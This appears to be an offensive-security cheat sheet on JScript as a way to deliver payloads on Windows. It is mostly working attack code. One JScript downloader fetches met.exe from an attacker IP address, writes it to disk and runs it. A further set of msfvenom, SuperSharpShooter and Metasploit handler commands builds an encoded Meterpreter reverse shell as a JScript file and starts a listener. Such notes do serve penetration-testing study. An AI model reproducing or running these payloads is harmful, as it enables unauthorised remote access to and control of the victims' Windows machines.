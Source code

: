 # JScript

<details>

<summary>What is it?</summary>

* Jscript (.js) is a dialect of JavaScript developed and owned by Microsoft
* Will execute using Windows Script Host when double clicked

</details>

<details>

<summary>Curl Using JScript</summary>

```bash
var url = "http://192.168.45.219/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");

```

</details>

<details>

<summary>SuperSharpShooter (JScript Rev shell)</summary>

```bash
# Generate shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin

# Convert to JScript (test.js)
supersharpshooter --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test

# Metasploit Listener
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

</details>

